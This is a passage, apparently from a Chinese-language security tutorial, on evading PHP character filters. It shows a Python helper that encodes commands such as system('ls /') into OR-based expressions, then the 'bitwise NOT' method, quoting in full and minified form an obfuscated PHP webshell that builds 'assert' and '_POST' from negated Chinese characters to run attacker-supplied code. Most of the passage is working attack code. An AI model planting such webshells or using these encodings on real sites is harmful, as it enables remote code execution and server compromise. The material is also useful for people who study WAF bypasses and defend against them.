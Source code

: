 ```
while True:
param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
print(param)
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7HmvdpuwRLOlL8VVJYWzicCY9slsJFJIFY4PuPFYibUF8fRmJGenJo1iaMw/640?wx_fmt=jpeg)

```
[+] your function：system
[+] your command：ls /
("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%0c%13%00%00"|"%60%60%20%2f");
```

测试效果如下：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7HQ6VcvkoLpcjzbWmlJkBKW8ZEwQ5SdFLLT3svPiaP5v6f8tIl9PKkjuw/640?wx_fmt=jpeg)

取反运算绕过
------

### 绕过原理

该方法和前面那两种绕过的方法有异曲同工之妙，唯一差异就是，这里使用的是位运算里的 “取反” 运算。

先来看看 PHITHON 师傅的汉字取反绕过，利用的是 UTF-8 编码的某个汉字，将其中某个字符取出来，比如`'和'{2}`的结果是`"\x8c"`，其再取反即可得到字母`s`：

```
echo ~('瞰'{1});    // a
echo ~('和'{2});    // s
echo ~('和'{2});    // s
echo ~('的'{1});    // e
echo ~('半'{1});    // r
echo ~('始'{2});    // t
```

这里直接给出 PHITHON 师傅的 Webshell：

```
$__=('>'>'<')+('>'>'<');    // $__=2, 利用PHP的弱类型的特点获取数字
$_=$__/$__;    // $_=1

$____='';$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__}); // $____=assert

$_____=_;$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});  // $_____=_POST

$_=$$_____;  // $_=$_POST
$____($_[$__]);  // assert($_POST[2])
```

缩减后即：

```
$__=('>'>'<')+('>'>'<');$_=$__/$__;$____='';$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});$_____=_;$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});$_=$$_____;$____($_[$__]);
或:
$__=('>'>'<')+('>'>'<');$_=$__/$__;$____='';$___=瞰;$____.=~($___{$_});$___=和;$____.=~($___{$__});$___=和;$____.=~($___{$__});$___=的;$____.=~($___{$_});$___=半;$____.=~($___{$_});$___=始;$____.=~($___{$__});$_____=_;$___=俯;$_____.=~($___{$__});$___=瞰;$_____.=~($___{$__});$___=次;$_____.=~($___{$_});$___=站;$_____.=~($___{$_});$_=$$_____;$____($_[$__]);
```
